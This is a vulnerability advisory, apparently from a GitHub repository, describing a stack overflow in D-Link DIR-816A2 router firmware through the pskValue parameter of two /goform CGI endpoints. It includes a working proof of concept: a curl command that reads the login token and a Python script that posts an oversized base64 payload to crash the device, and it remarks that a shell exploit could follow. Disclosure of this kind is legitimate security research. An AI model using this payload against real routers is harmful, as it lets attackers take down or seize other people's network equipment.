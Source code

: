 # DIR-816A2_FWv1.10CNB05_R1B011D88210.img Stack overflow vulnerability

## Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ： http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

Vulnerability occurs in /goform/form2WlanBasicSetup.cgi and /goform/form2Wl5BasicSetup.cgi.  With the setSecurity function,the contents obtained by the pskValue parameter are passed to V9, and then the contents matched by V9 are decoded and put into the V17 stack without size checking, resulting in a stack overflow.

![](img/2.png#center)

![](img/3.png#center)
## POC

Gets the token ID

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Run poc

```python
import requests
import base64

tokenid = ''

url = 'http://192.168.0.1/goform/form2WlanBasicSetup.cgi' #/goform/form2Wl5BasicSetup.cgi

payload = base64.b64encode(b'a' * 10000)

data = {
    'tokenid': tokenid,
    'method': '4',
    'pskValue': payload

}

r = requests.post(url, data)
hunzi = r.text
print(hunzi)
```

You can see the router crash, and finally you can write an exp to get a shell.

